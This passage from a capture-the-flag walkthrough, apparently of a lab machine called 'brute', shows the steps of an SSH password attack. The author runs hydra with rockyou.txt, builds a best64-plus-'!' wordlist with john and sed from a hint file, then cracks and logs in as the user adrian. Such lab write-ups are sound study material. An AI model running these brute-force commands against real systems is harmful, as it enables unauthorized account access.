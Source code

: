 I try and login to adrian on ssh with both passwords we found for him but it doesn't work.

Moving on to brute force and don't have any luck:

`hydra -l adrian -P rockyou.txt 10.10.111.4 ssh -V`

Looking through the adrian home directory shows us a file we're able to read:

`cat /home/adrian/.reminder`

```bash
Rules:
best of 64
+ exclamation

ettubrute
```

These sound like brute forcing rules to me. I search around and find that best of 64 refers to a rule set included with both hashcat and john the ripper. ettubrute sounds like the password we would apply the rules to.

Creating the password file:

`echo ettubrute | john --stdout --pipe '--rules=best64' > pass.txt`

And a little sed magic to add an ! to the end of each line:

`sed -i 's/$/!/' pass.txt`

The first few lines of our pass.txt file show that it worked:

```bash
ettubrute!
eturbutte!
ETTUBRUTE!
Ettubrute!
ettubrute0!
```

And we should now be able to brute force with this wordlist.

`hydra -l adrian -P pass.txt 10.10.111.4 ssh -V`

```bash
[22][ssh] host: 10.10.111.4   login: adrian   password: <REDACTED>
```

<br>

## System Access - adrian

I ssh over with the cracked password and log right in:

ssh adrian@10.10.111.4

```bash
Last login: Tue Apr  5 23:46:50 2022 from 10.0.2.26
adrian@brute:~$ whoami
adrian
adrian@brute:~$ hostname
brute
```
